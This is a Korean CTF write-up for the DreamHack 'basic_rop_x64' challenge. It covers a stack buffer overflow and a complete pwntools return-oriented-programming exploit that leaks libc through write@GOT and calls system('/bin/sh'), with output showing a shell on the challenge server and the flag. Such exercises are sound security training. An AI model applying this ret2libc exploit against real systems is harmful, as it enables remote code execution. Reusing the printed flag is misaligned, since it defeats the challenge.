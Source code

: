 # [DreamHack] basic_rop_x64

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 이 문제는 서버에서 작동하고 있는 서비스(basic_rop_x64)의 바이너리와 소스 코드가 주어집니다.
> Return Oriented Programming 공격 기법을 통해 셸을 획득한 후, “flag” 파일을 읽으세요.
> “flag” 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.
>
> Release: [basic_rop_x64.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8547675/basic_rop_x64.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/159834734-ca90ad12-676a-4155-aa75-19bd49cf4954.png)

## Analysis

```c
int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```

`read(0, buf, 0x400)`에서 BOF가 발생한다. `main()`의 return address를 덮어서 ROP를 수행할 수 있다.

## Exploit

### Leak libc

`write()`의 GOT에 저장된 데이터를 출력하여 libc 주소를 leak할 수 있다. `pop rdx` 가젯이 바이너리에 없는데, `main()`이 return될 때 `rdx`가 `0x40`으로 세팅되어 있기 때문에 건드리지 않아도 된다. `rdi`도 마찬가지로 1로 세팅되어 있기 때문에 건드리지 않아도 된다.

```python
# leak libc

payload = b'a' * 0x48 # dummy
payload += p64(pop_rsi_r15)
payload += p64(write_got)
payload += p64(0)
payload += p64(write_plt)

r.send(payload)
r.recvn(0x40)
write = u64(r.recvn(8)) # write()
libc = write - write_offset # libc base
```

### Return to main / Call system("/bin/sh")

```python
# call system("/bin/sh")

payload = b'a' * 0x48 # dummy
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)

r.send(payload)
```

### Full exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/basic_rop_x64')
    write_offset = 0x1100f0
    system_offset = 0x4f420
    binsh_offset = 0x1b3d88
else:
    r = remote('host1.dreamhack.games', 23040)
    write_offset = 0xf72b0
    system_offset = 0x45390
    binsh_offset = 0x18cd57

pop_rdi = 0x400883  # pop rdi; ret
pop_rsi_r15 = 0x400881  # pop rsi; pop r15; ret
write_got = 0x601020  # GOT of write()
write_plt = 0x4005d0  # PLT of write()
main = 0x4007ba  # main()


# leak libc

payload = b'a' * 0x48  # dummy
payload += p64(pop_rsi_r15)
payload += p64(write_got)
payload += p64(0)
payload += p64(write_plt)
payload += p64(main)  # return to main

r.send(payload)
r.recvn(0x40)
write = u64(r.recvn(8))  # write()
libc = write - write_offset  # libc base
system = libc + system_offset  # system()
binsh = libc + binsh_offset  # "/bin/sh"


# call system("/bin/sh")

payload = b'a' * 0x48  # dummy
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)

r.send(payload)


r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 23040: Done
[*] Switching to interactive mode
\x00)hp\x7f\x00P\xd2+hp\x7f\x00@g\x1ep\x7f\x00\xc0\xb3\x1fp\x7f\x00p^#hp\x7f\x006\x06\x00\x00\x00\x00\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa$ cat flag
DH{357ad9f7c0c54cf85b49dd6b7765fe54}
```